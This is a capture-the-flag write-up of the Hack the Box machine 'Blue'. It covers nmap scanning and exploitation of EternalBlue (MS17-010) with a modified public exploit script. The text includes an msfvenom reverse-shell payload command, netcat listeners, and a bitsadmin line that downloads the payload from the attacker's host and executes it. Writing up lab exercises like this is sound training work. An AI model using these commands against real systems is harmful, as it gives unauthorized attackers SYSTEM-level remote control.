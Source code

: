 ```yaml
---
title: Blue
tags: windows
description: Write-up for Hack the Box - Blue
---
```


![image](assets/79369688-5e3d2280-7f1f-11ea-9975-eaf1c4591c5c.png)

## Overview

Blue is a Windows box that was vulnerable to the infamous EternalBlue exploit which was leaked by the Shadow Brokers in 2017. Using the nmap script functionality I was able to determine the box was vulnerable to CVE-2017-0144 / MS17-010, a flaw that allows attackers to execute arbitrary code on a target system by sending specially crafted messages to a SMBv1 server. An existing exploit written in python was used to get a reverse shell as 'nt authority/system'.

> Eternal blue works by exploiting multiple SMBv1 bugs that when chained together allow the attacker to write and execute shellcode to gain access to the target. More information can be found [here](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)

## Enumeration

**Software**

* Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.40 -oN /mnt/data/boxes/blue/_full_tcp_nmap.txt
```
    
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 445/tcp - Microsoft Windows SMB
* 49152/tcp - Microsoft Windows RPC
* 49153/tcp - Microsoft Windows RPC
* 49154/tcp - Microsoft Windows RPC
* 49155/tcp - Microsoft Windows RPC
* 49156/tcp - Microsoft Windows RPC
* 49157/tcp - Microsoft Windows RPC

**Vulnerability Scan**

```
nmap 10.10.10.40 -p 445 -script=smb-vuln*
```

![image](assets/80120412-f14a0e00-8558-11ea-8509-1e602484561e.png)

## Steps (User)

The EternalBlue exploit grants access as nt authority/system, there is no user step.

## Steps (root/system)

Running a search in searchsploit shows a few results.

![image](assets/80120831-906f0580-8559-11ea-83c2-b93d63d02fd6.png)

I went with 42315.py which required a couple modifications:

Line 36: change username to guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Line 910: Modify the smb_pwn function. This specifies the source of the file to transfer (our reverse shell payload), the destination (root of C:), the name of the destination file (rshell.exe), and the location on the target box to execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, '/root/boxes/blue/rshell.exe', 'C', 'rshell.exe')
    service_exec(conn, r'cmd /c c:\\rshell.exe')
```

I generated a reverse shell payload using msfvenom and started a netcat listener (rlwrap nc -lvnp 4200)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4200 -f exe -o rshell.exe
```

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

With the modifications complete, I ran the exploit and received a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```

![image](assets/80130700-0af25200-8567-11ea-9e77-fdb0630d37cd.png)

## Steps (root/system) #2

Alternatively I could have used bitsadmin to download the payload from my machine via http and excute it to create the reverse shell. I didn't have much luck with the python http server so I used apache. 

I copied the rshell.exe file created earlier to web server root

```
cp rshell.exe /var/www/html/
```

I created a netcat listener (rlwrap nc -lvnp 4200) and started the apache service.

```
systemctl start apache2.service
```

I updated 42315.py to reflect the changes needed to use bitsadmin to download and execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    service_exec(conn, r'cmd /c bitsadmin /transfer pwnage /download /priority high http://10.10.14.8/rshell.exe c:\windows\temp\rhell.exe')
    service_exec(conn, r'cmd /c c:\\windows\\temp\\rshell.exe')
```

I ran the exploit and receved a callback and shell as 'nt authority\system'
```
./42315.py 10.10.10.40 samr
```

![image](assets/80132732-1c892900-856a-11ea-9b56-87d893abe5fc.png)
